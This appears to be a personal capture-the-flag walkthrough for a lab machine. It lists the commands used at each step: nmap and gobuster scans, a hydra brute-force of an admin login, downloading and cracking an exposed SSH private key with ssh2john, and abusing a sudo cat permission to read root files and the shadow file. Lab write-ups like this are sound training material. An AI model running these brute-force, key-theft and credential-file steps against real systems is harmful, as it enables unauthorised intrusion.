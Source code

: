 sudo nmap -sC -sV 10.10.249.93
![[attachments/Pasted image 20231219172106.png]]

gobuster dir -u 10.10.136.132 -w /usr/share/wordlist/
![[attachments/Pasted image 20231220105112.png]]

Looked at the source code on the normal page. Then at the admin page and found this:
![[attachments/Pasted image 20231220105137.png]]

So we know that the login name is 'admin'.

Let's setup a hydra bruteforce attack.

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.136.132 http-post-form "/admin/:user=admin&pass=^PASS^:password invalid" 
![[attachments/Pasted image 20231220110248.png]]

Found the password: xavier

We can no login and can see our first flag and the RSA private key to login to the SSH server for our next steps to get root on the box.
![[attachments/Pasted image 20231220110408.png]]

We downloaded the key from the server on our local machine
wget 10.10.136.132/admin/panel/id_rsa 
![[attachments/Pasted image 20231220111710.png]]

We then used ssh2john to create a hash from it:
ssh2john id_rsa > hash.txt

We now got the password for the rsa key.

We first need to update the key permissions with:
chmod 600 id_rsa

Then tried to login with the rsa key and the found password for the admin user, but that didn't work. But we know that there is the user 'john', so I tried it for that user and we are able to login and received the user.txt flag!
![[attachments/Pasted image 20231220112515.png]]

Now it's time to for some PrivEsc!
Let's first run sudo -l
![[attachments/Pasted image 20231220112919.png]]

We can run the cat command as sudo, so we can use that to give it our root flag in the root folder with
sudo cat /root/root.txt
![[attachments/Pasted image 20231220113016.png]]
We got the root flag and finished the box.

If the root flag would not have been there, we could also see the content of the passwd and shadow file with the sudo cat command. 
We could have retrieved the root hash and crack it with john and get the password for the sudo user:
![[attachments/Pasted image 20231220113653.png]]

Then on the machine we can move to the root folder and see the root.txt flag:
![[attachments/Pasted image 20231220113758.png]]
